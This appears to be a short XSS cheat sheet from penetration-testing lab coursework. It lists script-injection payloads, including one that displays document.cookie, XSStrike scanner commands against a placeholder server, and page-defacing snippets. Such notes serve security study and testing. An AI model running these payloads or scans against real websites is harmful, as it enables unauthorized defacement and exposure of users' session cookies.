 injecting javascript into webpages 

Payloads
```
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
```


Cookie showing
```
<script>alert(document.cookie)</script>
```

Automated Discovery 

XSSTrike
```
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
```

```
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

XSS payloads online, like the one on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or the one in [PayloadBox](https://github.com/payloadbox/xss-payload-list).


## Defacing
```
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
<script>document.title = 'HackTheBox Academy'</script>
document.getElementById("todo").innerHTML = "New Text"
```
